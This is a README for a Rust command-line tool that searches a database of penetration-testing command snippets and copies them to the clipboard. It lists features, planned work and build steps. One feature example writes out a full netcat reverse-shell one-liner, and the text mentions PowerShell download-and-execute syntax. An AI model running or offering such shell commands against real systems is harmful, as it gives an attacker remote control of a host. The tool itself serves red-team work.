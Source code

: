 
The goal of this project is to create an easier to use and updated replacement for [RTFM](https://github.com/leostat/rtfm) or something to run in the terminal that works like [Rev Shells](https://revshells.com/) or the [HackTools](https://addons.mozilla.org/en-US/firefox/addon/hacktools/) browser plugin. This started as a project to help improve my proficiency with Rust. I'm still new to it so I'm sure there are some poor Rust coding practices but I will be refactoring the code as I go.  I'm currently using the sqlite database that [RTFM](https://github.com/leostat/rtfm) uses but that needs some updating and new syntax needs to be added since that hasn't been touched in almost 6 years.  

My current usage of this is to have it running in a tmux pane and when I need the syntax for something like downloading a file from my local machine and then executing that in memory via powershell then I can just ctrl+r in the CLI, type something like IEX or powershell, and then select the syntax I need via the arrow keys.  Pressing return on the hightlighted command will then copy that command to the clipboard.  So instead of searching through my notes or opening a web browser, I can stay in the terminal and quickly copy/paste the command I need via the RedOx CLI.  

## Working Features
- Ctrl+r to dynamically search the RTFM database for commands as you type and display those in a selectable list.  Works similarly to using Ctrl+r to search through terminal history.
- Ctrl+h to display a history of previously selected commands from the current session in a selectable list. 
- up/down arrow keys to highlight a command from the current search or from the history. Pressing return copies that command to the clipboard.  
- 'info' displays full information on the currently selected command.  'full information' is very sparse at the moment.  
- 'add -c <command>' to add a new command to the database.  optional: -d to add a comment/description with the command.
- 'update <column> <content>' to update a database column in the currently selected command.  At the moment the only columns to update are 'command', 'comment' and 'author'. Examples: 'update comment spawn a pty via python3', 'update author greg scharf', 'update command rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [LHOST] [LPORT] >/tmp/f'.  

## Currently Working On
- 'set' command for variable replacement when selecting a command that has placeholders for LHOST, LPORT, etc.
- In 'info' show variables that need to be set and if they are set display their current value.
- Need to do some sed magic on the database build files to make variable names consistent and then rebuild the database.

## To Add
- [ ] Set variables in the CLI to automatically replace placeholders in commands for things like Remote Host, Local Host, Local Port, etc similar to msfconsole.  
    - Need to standardize the naming of placeholders that are already in the RTFM database because sometimes the local host IP is represented as [me],[IP],[LHOST] or [lip].
- [ ] Add config file to store user set variables and other as yet to be determined configurations.
    - This might be the place for related commands that are often used together. Add ability to save the commands in the current history.  Would need a way to quickly delete a command in the current history e.g. highlight the command and then Ctrl+d to remove it. Also need to be able to completely clear the current history.  User would also need to supply a name for the history before it is saved to the config file.  These would be stored as an array of row IDs from TblCommand. Use the 'config' crate to facilitate this.  
- [ ] Add 'env' command to display all variables set in the user's config file
- [ ] Ctrl+d while in selectable list deletes the item from the database, or if in history mode, deletes the item from the current history.
- [ ] Make use of tags already implemented in the database to display selectable list of grouped items. For example, 'reverse shells linux' to display all commands in the database grouped under that tag.  tags already in the database are probably a little too general to be useful e.g. 'bash', 'windows'.  Also need a function to display all tags in the database as a selectable list.
- [x] Add ability to update the database columns of the currently selected command.
- [x] Display command's comment and any other info after it has been selected.
- [x] Add a history feature, ctrl+h or type 'history' to show a selectable list of previously copied commands.
- [x] Show currently selected command in prompt, type info to show all columns to allow for easier updating of the database within the CLI.
- [ ] Implement [RTFM](https://github.com/leostat/rtfm)'s solution for creating/updating the database
- [ ] Update the database with newer commands for things like Bloodhound,ffuf,feroxbuster,Rubeus,Crackmapexec,Chisel,SSHuttle, etc.
- [ ] Add a better method for generating help content with the prettytable crate.
- [ ] Allow selection mode to wrap up or down
- [ ] Fix errors that occur when attempting to create a statically linked linux release
- [ ] Get Windows version working
- [ ] Add search capability for text based/markdown notes.    
    - Root directory for user's notes will be supplied in a CLI variable.
- [ ] Use pre-existing 'refs' table to link to markdown notes and display notes in terminal when selected... there is probably a crate to display markdown.

## To Fix
- [ ] 5-26-23: Clean up code again before it becomes too unruly.
- [x] Termion inconsistent colors between Arch and Ubuntu.
- [ ] Add buffer to scroll through result output that doesn't fit within terminal windows.
- [x] Handle error when output exceeds terminal window so application doesn't crash on Arch.
    - Needs a much better solution
- [ ] Issues with Termion when attempting to build a Windows executable.
- [ ] Termion screen refresh on MAC M1 causes screen to flicker when arrowing through commands.

## Build/Install

### Linux
To build and use until I add release builds

```bash
git clone https://github.com/gregscharf/RTFM-Redox.git
cargo build -r
# If you encounter linker errors see Issues below
mkdir /opt/redox
cp target/release/redox /opt/redox/
cp snibs.db /opt/redox/
sudo ln -s /opt/redox/redox /bin/redox
```

**Issues**
When building on Debian distributions: If the linker fails during build install the following packages.
```bash
sudo apt install libxcb1-dev libxcb-render0-dev libxcb-shape0-dev libxcb-xfixes0-dev
```

### Windows
**Note**: Building on Windows is not currently working because of an issue I need to resolve related to the Sys crate???
